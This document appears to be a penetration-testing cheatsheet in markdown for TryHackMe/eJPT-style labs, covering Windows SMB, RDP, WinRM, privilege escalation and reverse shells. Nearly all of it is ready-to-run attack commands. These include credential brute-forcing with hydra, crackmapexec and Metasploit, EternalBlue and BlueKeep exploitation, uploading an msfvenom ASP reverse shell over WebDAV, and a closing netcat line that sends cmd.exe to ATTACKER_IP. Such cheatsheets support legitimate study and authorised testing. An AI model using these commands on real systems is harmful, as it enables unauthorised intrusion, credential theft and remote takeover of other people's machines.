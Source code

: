 ___
* A cheatsheet that will help with ennumaration and different technics - **Str4ngerX**
* **Tryhackme :** https://tryhackme.com/p/Str4ngerX
* **LinkedIn :** https://www.linkedin.com/in/alaloghmari/
___
# Contents 
___
* ##### [Protocols](#Protocols)
* ##### [Privilege Escalation](#Privilege%20Escalation)
* ##### [Reverse Shell](#Reverse%20Shell)
___
# ⚠️ Important Links : 

>[!warning] Links
>- ##### https://blog.syselement.com/ine/courses/ejpt/ejpt-cheatsheet  (Cheatsheet)

___
# Protocols

- #### **SMB :**

>[!warning] Info
>- Utilizing PsExec (telnet replacement made by microsoft) to gain access to run commands on target.
>- **Download :** https://github.com/fortra/impacket/blob/master/examples/psexec.py

1. **PsExec :** 

```bash
# Before using PsExec we need to gain the credentials via BruteForce.
msfconsole
		-> use auxiliary/scanner/smb/smb_login
		-> set RHOSTS, RPORT, PASS_FILE, USER_FILE
		-> run

# Running a python implementation of the real PsExec.
psexec.py USERNAME@IP_ADRESSE cmd.exe

# Use of Metasploit to execute PsExec.
msfconsole
	-> use exploit/windows/smb/psexec
```

2. **EternalBlue (MS17-010) :**

>[!warning] Infected Versions
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ Windows Vista‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ |‎ ‎ ‎ Windows Server 2008
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎ ‎ Windows 7‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ |‎ ‎ ‎ Windows Server 2012
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ Windows 8.1‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎|‎ ‎ ‎ ‎ Windows Server 2016
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ Windows 10
>
>- **Download : ** https://github.com/3ndG4me/AutoBlue-MS17-010.git

```bash
# Check for the vulnerability using Nmap & Msfconsole.
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 -O TARGET_IP
msfconsole
	-> use auxiliary/scanner/smb/smb_ms17_010

# Manual Exploit (AutoBlue-MS17-010)
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010 && pip install -r requirements.txt # Dependencies.
cd shellcode && chmod +x shell_prep.sh
./shell_prep.sh # Generating the payload.
nc -lnvp LPORT # Setting up a listener.
cd .. && python3 eternalblue_exploit7.py TARGET_IP shellcode/sc_x64.bin

# Automatic Exploit Using Msfconsole.
msfconsole
	-> use exploit/windows/smb/ms17_010_eternalblue
```

- #### **RDP :**

1. **Bruteforce & connect :** 

```bash
# Checking for rdp.
msfconsole
	-> use auxiliary/scanner/rdp/rdp_scanner
	-> set RHOST, RPORT

# Brute forcing credentials.
hydra -L USER_WORDLIST -P PASS_WORDLIST TARGEET_IP -s RPORT RDP

# Connecting to RDP
xfreerdp /u:USERNAME /p:PASSWORD /v:TARGET_IP:RPORT
```

2. **BlueKeep (CVE-2019-0708) :**

>[!warning] Infected Versions
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎ ‎ ‎ Windows Vista‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ |‎ ‎ ‎ Windows Server 2008 & R2
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎‎ Windows XP‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎‎ ‎ ‎ ‎‎ ‎‎ Windows 7‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎
>
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎‎ ‎ ‎ ‎‎ ‎‎ **Only x64 Versions of Windows**

```bash
# Metasploit Exploitation.
msfconsole
	-> search BlueKeep
	-> use ....
	-> show targets # Choosing a target/windows version : This is mendatory !
	-> set target [number]
	
```

- #### **WinRM :**

```bash
crackmapexec [OPTIONS]
evil-winrm -i IP -u USER -p PASSWORD

nmap --top-ports 7000 TARGET_IP
nmap -sV -p 5985 TARGET_IP
```

```bash
crackmapexec winrm <TARGET_IP> -u <USER> -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "whoami"

crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "systeminfo"
```

```bash
# Command Shell
evil-winrm.rb -u <USER> -p '<PW>' -i <TARGET_IP>
```

2. **Metasploit :** 

```bash
## METASPLOIT

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

# Brute force creds
use scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# exploit
use exploit/windows/winrm/winrm_script_exec
set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true

# Meterpreter Commands
sysinfo
getuid 
```

# Privilege Escalation

- #### **IIS (Internet Information Services) :**

>[!info]-
>Internet Information Services (IIS) is the default web server on Windows installations

>[!example]- List of IIS Configuration Files
>- **C:\inetpub\wwwroot\web.config**
>- **C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config**

>[!tip]- 
> Quick Way Finding Database Connection Strings :
>```powershell
>type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
>```

```bash
# Exploiting WebDav at /webdav/ : can be uncovered using nmap/gobuster/..
# If credentials (popup) are asked, a bruteforce attack can solve the problem.
hydra -l bob -P ~/Desktop/rockyou.txt 10.10.179.38 http-get /webdav/ -V -I

# Testing what types of files to upload & executed in order to gain a reverse shell.
davtest -auth bob:password -url http://10.10.179.38/webdav/

# Uploading & Executing using cadaver.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Attacker_IP LPORT=Attacker_PORT -f asp -o shell.asp
cadaver http://10.10.179.38/webdav/ # Will be asked for credentials.
	-> put shell.asp # File can be generated using msfvenom.

# Set up a handler/listener.
msfconsole
	-> use multi/handler
	-> set payload windows/meterpreter/reverse_tcp
	-> show options
```

- #### Scheduled Tasks :

```powershell
# List scheduled tasks.
schtasks

# Retrieve information about any of the services.
schtasks /query /tn vulntask /fo list /v

# Run a scheduled task (if permitted).
schtasks /run /tn vulntask

# Check permissions on an executable.
icacls
```
# Reverse Shell

```powershell
# Writing the command in the file.bat then run it.
# nc64 should be on the victiim machine.
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\file.bat

# On Attacker's Machine.
nc -lvp 4444
```
